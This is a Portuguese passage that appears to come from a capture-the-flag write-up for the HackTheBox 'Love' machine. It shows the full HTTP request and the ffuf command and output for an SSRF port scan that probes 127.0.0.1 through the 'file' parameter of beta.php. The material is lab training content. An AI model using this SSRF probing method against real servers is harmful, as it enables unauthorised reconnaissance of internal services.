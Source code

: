     Para essa técnica funcionar é necessário seguir os seguintes passo:

1. Capture o request via burp

2. Coloque o request em um arquivo

3. Modifique o arquivo colocando "FUZZ" onde é necessário

4. Ataque via FFUF passando as requisições via proxy

> Arquivo request com "FUZZ" no lugar onde fica as portas

```textile
POST /beta.php HTTP/1.1
Host: staging.love.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: http://staging.love.htb
Connection: close
Referer: http://staging.love.htb/beta.php
Upgrade-Insecure-Requests: 1

file=http://127.0.0.1:FUZZ&read=Scan+file
```

    Tendo alterado o arquivo, podemos pegar sua url e fazer o ataque via FFUF passando o tráfego pelo burp para melhor visualização via RENDER.

```bash
└─$ ffuf -w ports -u "http://staging.love.htb/beta.php" -request request -x http://127.0.0.1:8080                                    

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : POST
 :: URL              : http://staging.love.htb/beta.php
 :: Wordlist         : FUZZ: ports
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
 :: Header           : Origin: http://staging.love.htb
 :: Header           : Referer: http://staging.love.htb/beta.php
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Host: staging.love.htb
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Accept-Encoding: gzip, deflate
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Connection: close
 :: Data             : file=http://127.0.0.1:FUZZ&read=Scan+file
 :: Follow redirects : false
 :: Calibration      : false
 :: Proxy            : http://127.0.0.1:8080
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
```